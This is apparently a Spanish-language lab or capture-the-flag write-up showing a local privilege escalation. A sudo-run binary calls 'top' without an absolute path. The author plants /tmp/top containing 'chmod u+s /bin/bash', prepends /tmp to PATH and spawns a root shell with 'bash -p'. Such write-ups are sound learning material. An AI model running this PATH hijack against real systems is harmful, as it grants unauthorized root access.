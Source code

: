 Listamos los binarios que podemos ejecutar como SUDO
![[Pasted image 20250629210415.png]]
Al ejecutarlo vemos que se listan los procesos de la máquina, por lo tanto se esta ejecutando un "top"
![[Pasted image 20250629210511.png]]
```
strings /home/anansi/bin/anansi_util
```
Al ejecutar ese comando, vemos lo siguiente:
```
begin: saved other filter data -------------------
9*3$"
%-*.*s%s
%*.*s%s
kmgtpe
%-*.*s%s
%*.*s%
top <---------------- el comando llamado sin su ruta absoluta
 ~6 ~1
?BdEefgHhIkrsXYZ0
!12345Clmt
#<>bcFiJjnOoRSUuVvxyz
+-=_&AaGLw

```
Al saber eso, creamos un script con el nombre de top, que le de permisos SUID a la bash. Lo alojamos en el directorio /tmp y le damos permisos de ejecución.
```
echo "chmod u+s /bin/bash" > /tmp/top
chmod +x /tmp/top
```
Imprimimos el contenido de la variable de entorno PATH (**es una lista de directorios separados por dos puntos que le dice a tu shell dónde buscar primero el programa o script ejecutable que especificaste**)
```
echo $PATH
```

![[Pasted image 20250629211212.png]]
Modificamos el PATH para que comience con el directorio /tmp
```
export PATH=/tmp:$PATH
echo $PATH
```

![[Pasted image 20250629211306.png]]
Ejecutamos el comando nuevamente
![[Pasted image 20250629211409.png]]

![[Pasted image 20250629211423.png]]
Ahora comprobamos si la bash a adquirido los privilegios SUID:
```
ls -la /bin/bash
```
Resultado:
```
-rwsrwxr-x 1 root root 1446024 Mar 31  2024 /bin/bash
```
Ahora lanzamos una bash con privilegios:
```
/bin/bash -p
```
![[Pasted image 20250629214413.png]]



